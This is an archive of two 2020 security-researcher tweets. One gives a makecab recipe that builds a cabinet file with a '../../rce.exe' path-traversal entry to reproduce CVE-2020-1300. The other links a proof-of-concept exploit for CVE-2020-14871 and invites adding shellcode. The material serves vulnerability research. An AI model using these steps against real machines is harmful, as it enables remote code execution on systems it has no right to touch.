 
# steventseeley
**https://twitter.com/steventseeley/status/1323694078022848512 _at 2020-11-03, 18:30:35_**
<blockquote>
For those that want to repro CVE-2020-1300 you can just use makecab, no need to manually calc checksums now:

c:\&gt;type files.txt
"rce.exe" "../../rce.exe"
c:\&gt;makecab /f files.txt
</blockquote>

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>136</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1323640631613394945 _at 2020-11-03, 14:58:13_**
<blockquote>
Dirty libssh2 PoC for CVE-2020-14871 to core target and pack with your favorite shellcode &amp; return addresses, something for the kidz on lockdown. Happy Hacking. https://t.co/7dqSGjOXqw https://t.co/UtnyDtxx1s
</blockquote>

* https://github.com/hackerhouse-opensource/exploits/blob/master/prdelka-vs-SUN-sshd.tgz

<table><tr>
<td><img src="pictures/42dbb8c0d83006f467f596e945243c61c5a5791f6cf71c0df4668fb450ff92da.jpg" alt="42dbb8c0d83006f467f596e945243c61c5a5791f6cf71c0df4668fb450ff92da.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>294</code></td>
</tr></table>

---